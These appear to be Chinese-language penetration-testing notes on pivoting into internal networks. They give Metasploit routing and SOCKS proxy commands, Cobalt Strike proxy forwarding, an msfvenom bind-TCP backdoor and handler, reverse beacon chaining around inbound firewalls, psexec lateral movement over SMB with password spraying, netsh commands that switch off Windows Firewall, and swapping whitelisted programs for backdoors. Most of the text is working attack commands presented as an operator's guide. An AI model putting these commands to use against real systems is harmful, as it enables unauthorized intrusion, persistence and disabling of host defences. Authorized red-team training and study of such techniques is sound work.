

![](.topwrite/assets/image_1712711364958.png)

## **1.代理跳板机**
代理协议：SOCKS4/5，5增加了udp和可以身份验证。
代理客户端软件：SocksCap Proxifier ProxyChains(linux)等。
目的：代理公网跳板机，使得配置 代理ip:端口 后，可通过跳板机访问内网的ip。
一般不受系统防火墙封禁，可以提供tcp，udp，不提供icmp。

**MSF代理：**
已知通过MSF 192.168.1.119上线
进入meterpreter添加内网路由，使得可以通信192.168.11.0的网段
>CS无需添加路由
```
查看内网相关信息
ipconfig
route list
run get_local_subnets 会话里查看路由信息


自动添加路由
run autoroute -p
run post/multi/manage/autoroute

session里手动加路由
run autoroute -s 192.168.55.0/24    

或会话外添加指定路由，1是接收的session编号，这个编号一定要对于会话，如果这个会话掉了，也要换。
route add 192.168.11.0  255.255.255.0  1
route print 查看

查看已经添加msf的路由
 run autoroute -p
```

MSF服务端使用SOCKS5代理模块
```
search socks
use auxiliary/server/socks_proxy
set version 4a  
set srvhost 0.0.0.0
set srvport 1122
run
不设置默认socks5，socks5支持udp，4a不支持
run之后可能会立即停止，这时候换一个端口，再run。

jobs -v命令查看
jobs -h
jobs -i 0
```
MSF服务端在1122端口通过 1.119机子是的后门 正向代理了1.119机子的192.168.11.0网段。
通过代理客户端配置代理MSF服务器IP+1122端口 访问192.168.11.129可达。
>当前msf中获取了新shell会话时(无论正向还是反向均可)，添加shell里的新路由即可，代理会自动更新新路由，及多个多个路由的代理。

^
**CS代理：**
CS上线192.168.1.119后，高权限，右击记录选择 代理转发-socks代理-监听端口如8087，即可CS服务端SOCKS代理8087端口。

>注意此时的网络出口是1.119跳板机的出口ip，而不是代理的服务端ip。

proxifier软件配置目的IP为192.168.3.*就走socks代理，即可在本地访问对方内网ip。

^
## **2.正向上线内网机**
代理后此时可以访问11.129内网机子并拿下shell权限。
拿下内网shell为了更好需要上线CS或MSF，而此内网机无法访问外网，且无入方向防火墙，则正向入。
>PS这里也可以frp内网穿透反弹端口转发上线

**CS正向上线内网机：**
在11.129上注入CS正向后门 bind 端口（监听器选择Beacon TCP）。
CS直接用1.119的会话，用命令连接上，自动新上线。
```
connect 192.168.11.129 2222
```

**MSF正向上线内网机：**
```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe -o bd.exe

主动监听连接：
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 目标ip
set lport  后门端口
run
```
此时sessions可以看到新上线。




## **入方向有只开放80防火墙**
![image-20240410143822880](http://cdn.33129999.xyz/mk_img/image-20240410143822880.png)
Windows2008有入方向防火墙，只有80的http可以通过，tcp的其他端口正向连接不允许。

出方向到Windows10没有防火墙，使用反弹tcp后门到Windows10，Windows10监听端口，端口转发到Windows7正向连接的端口，再回到攻击机代理。

也可以ICMP隧道上线。

已知getshell了Windows2008，上线了Windows10。
CS只需要在Windows10右击选择代理转发-转发上线，增加Windows10上的监听器，选择这个监听器生成反弹后门，后门在Windows2008上线即可。






## **入出方向有只有打印机通过的防火墙**
Windows2012 自带有入方向防火墙，且出方向到Windows2008对方也有入方向防火墙。
不能用ICMP隧道，ICMP需要在Windows2012上运行程序，并且ICMP到Windows2008时会转成TCP也会被Windows2008的入方向防火墙拦截。

好在有文件打印机共享可通过的SMB协议，445端口，一般开启了的，但也需要有密码喷洒。

^
已知上线了Windows2008，无需getshell了Windows2012。
CS右击Windows2008进行192.168.33.0网段的端口扫描。
最终扫到Windows2012的192.168.33.130:445端口SMB开放放入目录列表。
创建Beacon SMB监听器
目录列表，右击横向移动psexec64，密码喷洒+绑定SMB监听器。
无需生成后门直接上线成功。


^
## **系统防火墙操作**
需要高权限，且如果是域内成员主机可能还需要域控权限。
三种方案：防火墙开关，删除规则，替换程序
适用于：1、单纯的内网环境2、单纯的内网域环境（域控没有设置组策略防火墙同步）

Windows防火墙命令
Windows防火墙命令：https://www.cnblogs.com/tomte1lyou/p/16300557.html
查看当前防火墙状态：netsh advfirewall show allprofiles
关闭防火墙：netsh advfirewall set allprofiles state off
开启防火墙：netsh advfirewall set allprofiles state on
恢复初始防火墙设置：netsh advfirewall reset
启用桌面防火墙：netsh advfirewall set allprofiles state on

设置默认输入和输出策略：netsh advfirewall set allprofiles firewallpolicy allowinbound,allowoutbound
如果设置为拒绝使用blockinbound，blockoutbound

^
替换程序：
将已经在防火墙绿色白名单的程序路径找到，用后门程序改名替换此程序。